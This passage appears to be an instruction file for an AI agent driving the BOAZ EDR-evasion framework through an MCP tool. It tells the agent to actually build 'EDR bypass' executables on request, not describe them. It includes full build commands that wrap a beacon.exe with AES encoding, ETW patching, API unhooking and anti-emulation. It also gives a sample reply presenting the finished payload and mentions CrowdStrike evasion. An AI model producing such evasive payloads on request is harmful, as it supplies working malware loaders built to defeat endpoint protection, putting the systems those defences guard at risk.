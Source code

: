 **The EXE file EXISTS on disk after this process completes.**

### Example: User Says "Build an EDR bypass"

**❌ WRONG RESPONSE**:
```
"I would run this command: python3 Boaz.py -f beacon.exe -o output.exe -l 51 -e aes"
```
This just describes what would happen. **The exe is NOT built.**

**✅ CORRECT RESPONSE**:
```
I'll generate an EDR bypass payload for you. Let me build it now with advanced evasion techniques.

[AI calls generate_payload MCP tool with appropriate parameters]

✅ PAYLOAD GENERATED SUCCESSFULLY

📂 Output Path: /path/to/BOAZ_beta/output/edr_bypass.exe
📊 File Size: 145,280 bytes (141.88 KB)
🎯 Loader: 51 (Sifu Breakpoint Handler)
🔒 Encoding: aes
⚙️ Compiler: akira

The final executable is ready at:
/path/to/BOAZ_beta/output/edr_bypass.exe

EDR evasion features enabled:
- Memory guard with breakpoint handler
- AES encryption
- LLVM-based obfuscation (Akira)
- ETW patching
- API unhooking
- Anti-emulation checks

Your EDR bypass payload is ready for testing.
```

### What You Must Do

1. **ALWAYS call the MCP tool** - Don't just describe commands
2. **WAIT for tool response** - The build process takes time
3. **CONFIRM the exe path** - Show user exactly where the file is
4. **VERIFY the output** - Check the tool's response for success/error

### Common Mistake: Describing vs Doing

**User**: "Build an EDR bypass with CrowdStrike evasion"

**❌ MISTAKE**:
```
"To build this, you would run:
python3 Boaz.py -f beacon.exe -o bypass.exe -l 51 -e aes -c akira -etw -a -u

This would create an evasive payload with..."
```
